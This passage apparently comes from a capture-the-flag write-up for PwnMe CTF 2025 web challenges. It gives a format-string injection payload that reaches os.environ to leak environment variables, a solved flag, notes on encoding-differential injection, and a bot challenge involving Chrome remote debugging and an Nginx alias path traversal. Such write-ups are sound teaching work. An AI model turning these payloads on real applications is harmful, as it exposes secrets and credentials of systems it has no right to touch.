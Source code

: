 Payload to retrieve the env variables:

```python
prompt = "{0.__globals__[render_template].__globals__[Template].render.__globals__[os].environ._data}"
```

### Flag

```python
PWNME{b492b312612c741b3b6597f925f88198}
```

### Additional Note

According to the challenge author, this challenge is essentially about encoding differentials, as explained in the following article. However, they forgot to escape the `/` lol.

https://www.sonarsource.com/blog/encoding-differentials-why-charset-matters/

This exploitation works when you control two parts of the HTML code: one to inject a decoding escape sequence and the other to inject the payload. This allows escape characters like `/` to be treated as normal code, e.g., `¥` in JIS X 0201 1976,  while the attacker-injected `"` regains its effect.

Here is the author’s solve: [https://github.com/Phreaks-2600/PwnMeCTF-2025-quals/blob/main/Web/sayMyName/solve/solver.py](https://github.com/Phreaks-2600/PwnMeCTF-2025-quals/blob/main/Web/sayMyName/solve/solver.py)

## Hack the Bot - 2

I didn’t manage to solve this challenge during the game. I know it’s related to connecting to Chrome via the CDP remote debugging port. However, since the challenge doesn’t explicitly set the port using `--remote-debugging-port`, I wasn’t aware that I could leak it from the browser’s user data folder.

### Vulnerability

The setup of this challenge is that you can let the puppeter visit any website. And the browser is started in the following way. You goal is to read a local file under the source code folder.

```jsx
const logPath = '/tmp/bot_folder/logs/';
const browserCachePath = '/tmp/bot_folder/browser_cache/';

const browser = await puppeteer.launch({
    headless: 'new',
    args: ['--remote-allow-origins=*','--no-sandbox', '--disable-dev-shm-usage', `--user-data-dir=${browserCachePath}`]
});
```

**Misconfiguration in Nginx**

The Nginx configuration is misconfigured as follows, allowing for a one-layer path traversal: [https://www.acunetix.com/vulnerabilities/web/path-traversal-via-misconfigured-nginx-alias/](https://www.acunetix.com/vulnerabilities/web/path-traversal-via-misconfigured-nginx-alias/)
